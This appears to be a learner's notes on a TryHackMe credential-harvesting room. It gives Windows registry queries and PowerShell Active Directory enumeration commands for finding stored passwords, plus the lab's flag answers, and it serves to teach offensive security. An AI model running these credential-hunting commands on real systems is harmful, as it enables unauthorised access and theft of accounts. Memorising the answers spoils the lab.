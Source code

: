 # Credharvesting
- After gaining access to a system we need to find creds.

## Credentials are stored insecurely in various locations in systems:
-   Clear-text files
 -   Database files
 -   Memory
 -   Password managers
 -   Enterprise Vaults
 -   Active Directory
 -   Network Sniffing

## The following are some of the types of clear-text files that an attacker may be interested in:
- Commands history
-  Configuration files (Web App, FTP files, etc.)
- Other Files related to Windows Applications (Internet Browsers, Email Clients, etc.)
- Backup files
- Shared files and folders
- Registry
- Source code 

## As an example of a history command, a PowerShell saves executed PowerShell commands in a history file in a user profile in the following path: 
    C:\Users\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt 

    
## Searching for the "password" keyword in the Registry        
- c:\Users\user> reg query HKLM /f password /t REG_SZ /s
- C:\Users\user> reg query HKCU /f password /t REG_SZ /s

Use the methods shown in this task to search through the Windows registry for an entry called "flag" which contains a password. What is the password?
## (Task 3)Use findstr to grep THM text only

```
PS C:\Users\thm> reg query HKLM /f password /t REG_SZ /s | findstr flag
  flag    REG_SZ    password: 7tyh4ckm3
```    

## (Task 3)Enumerate the AD environment we provided. What is the password of the victim user found in the description section?
Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description

```
PS C:\Users\thm> Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description

Name          SamAccountName Description
----          -------------- -----------
Administrator Administrator  Built-in account for administering the computer/domain
Guest         Guest          Built-in account for guest access to the computer/domain
krbtgt        krbtgt         Key Distribution Center Service Account
THM User      thm
THM Victim    victim         Change the password: Passw0rd!@#
thm-local     thm-local
Admin THM     admin
svc-thm       svc-thm
THM Admin BK  bk-admin
test          test-user
sshd          sshd
```

